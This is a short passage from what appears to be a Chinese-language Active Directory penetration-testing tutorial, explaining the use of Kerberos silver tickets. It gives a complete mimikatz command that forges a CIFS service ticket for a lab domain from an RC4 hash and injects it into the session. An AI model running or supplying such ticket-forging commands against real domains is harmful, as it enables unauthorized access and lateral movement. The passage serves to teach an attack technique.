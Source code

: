 ### 5.2.2 白银票据的利用

在黄金票据中我们可以不指定 target 和 service，但是在白银票据中必须指定 target 和 service

```bash
mimikatz.exe privilege::debug "kerberos::golden /domain:adtest.com /sid:S-1-5-21- 3418659180-3421952656-1938706522 /target:WIN-9P499QKTLDO.ADTEST.COM /service:cifs /rc4:22eec3fbe7191bdcf1e5819f8bdcd951 /user:aaa /ptt"

```

![](images/yushentou/15899766276117.png)

![](images/yushentou/15899766319955.png)


